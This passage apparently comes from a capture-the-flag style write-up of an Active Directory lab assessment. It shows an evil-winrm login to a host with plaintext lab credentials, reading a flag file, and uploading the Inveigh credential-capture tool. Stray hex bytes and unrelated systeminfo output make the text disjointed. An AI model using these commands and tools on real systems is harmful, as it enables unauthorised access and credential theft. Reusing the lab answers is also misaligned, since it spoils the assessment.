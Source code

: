 b9 74 d2 4f f7 06 79 25 e3 6f 60 11 3b ce e0 0d f7 a0 01 c6 1f 5a 61 3e ea 3a 45 63 09 68 02 3b 72 3f

f2 2a 28 3f

**Anwer:** `**s3imp3rs0nate_cl@ssic**`

### 

8. Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#8.-submit-the-contents-of-the-flag.txt-file-on-the-administrator-desktop-on-the-ms01-host.)

Found creds `mssqlsvc:Sup3rS3cur3maY5ql$3rverE` above

┌─[htb-student@skills-par01]─[~]

└──╼ $evil-winrm -i 172.16.7.50 -u mssqlsvc -p 'Sup3rS3cur3maY5ql$3rverE'

<SNIP>

*Evil-WinRM* PS C:\Users\mssqlsvc\Documents> cd C:\

*Evil-WinRM* PS C:\> dir

​

Directory: C:\

​

Mode LastWriteTime Length Name

---- ------------- ------ ----

d----- 2/25/2022 10:20 AM PerfLogs

d-r--- 4/11/2022 10:00 PM Program Files

d----- 4/1/2022 10:11 AM Program Files (x86)

d-r--- 3/7/2023 10:01 PM Users

d----- 4/20/2022 5:31 AM Windows

-a---- 4/11/2022 10:19 PM 24 flag.txt

​

*Evil-WinRM* PS C:\> type flag.txt

aud1t_gr0up_m3mbersh1ps!

**Answer:** `**aud1t_gr0up_m3mbersh1ps!**`

### 

9. Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What this user's account name?[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#9.-obtain-credentials-for-a-user-who-has-genericall-rights-over-the-domain-admins-group.-what-this-u)

*Evil-WinRM* PS C:\> upload /home/htb-student/Inveigh.exe C:\Inveigh.exe


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0